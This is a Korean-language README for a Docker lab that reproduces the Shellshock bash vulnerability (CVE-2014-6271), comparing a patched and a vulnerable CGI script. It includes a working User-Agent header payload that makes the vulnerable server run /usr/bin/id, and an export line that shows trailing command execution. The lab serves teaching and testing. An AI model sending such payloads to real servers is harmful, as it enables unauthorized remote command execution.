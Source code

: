 # CVE-2014-6271

#### Contributor

진규정 (@gyutrange)

### 요약

취약점: bash의 환경변수를 설정할 때 발생함.

foo라는 환경 변수 설정시,  함수 형태로 선언하면 설정 내부에서 함수로 인식함.
이때, 함수 뒤에 있는 스크립트까지 함께 실행되면서 취약점과 위협이 발생하게 됨.

```
export foo='() { echo hello; }; pwd; ls;'
```

bash가 실행되면 `pwd; ls;` 뒷 부분의 스크립트가 실행됨. 

Bash CGI는 request시의 User-Agent값을 환경변수에 저장하므로 CGI를 이용하는 서버에 취약점을 발생시킴.
(따로 쉘을 실행시키지 않아도 공격이 가능함.)

<br>

### 환경 구성 및 실행

```bash
docker compose build
docker compose up -d
```

http://your-ip/ 에 접속하면 두 개의 파일이 보임.

1. safe.cgi : 최신버전의 bash로 생성.
2. victim.cgi : 취약한 4.3버전 bash로 생성.

<br>

### 결과

`() { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id` 스크립트를 User-Agent header값에 넣으면 `/usr/bin/id` 가 실행되며 결과가 나타남.

safe.cgi로 공격을 할 경우 페이로드가 통하지 않는다.

<br>

### 결

- CVE-2014-6271는shellshock로 매우 위험한 취약점임.
- 웹의 request만으로 쉘 명령어를 사용할 수 있음.
